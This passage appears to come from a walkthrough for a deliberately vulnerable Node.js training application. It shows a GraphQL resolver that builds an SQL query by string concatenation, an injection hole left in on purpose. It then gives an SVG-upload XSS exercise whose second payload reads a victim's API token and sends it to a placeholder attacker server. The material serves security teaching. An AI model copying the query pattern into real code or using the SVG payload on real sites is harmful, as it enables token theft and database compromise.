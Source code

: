 **graphql_ShowProfile**

```js
async function graphql_ShowProfile(args){
    const userid = args.userid
    const q = "SELECT * FROM users where id='" + userid + "';";
    await con.connect()
    const userdata = await con.promise().query(q)
    return userdata[0][0]
}
```

## 25 XSS using SVG file upload

Application allows users to upload .svg file as a profile picture your goal is to steal other user information by using XSS.

### Exploit

1. Login to the attacker account
2. Upload the following malicious `.svg` file to your account.
   
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert('This app is probably vulnerable to XSS attacks!');
   </script>
</svg>
```
3. Right click on your profile image click on view image and it will open the image in a new tab and you will see an alert popup.
4. Now modify the XSS payload in the svg file to steal details from other users account such as their  API token that is returned from this endpoint `/jwt1/apiKey`
   
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script>
function stealData(t) {
    fetch(t).then(t => t.text()).then(t => {
        fetch("http://<attackerserver>/steal?apitKey=" + t)
    })
}
stealData("http://<vuln-nodejs-app>/jwt1/apiKey");
   </script>
</svg>
```
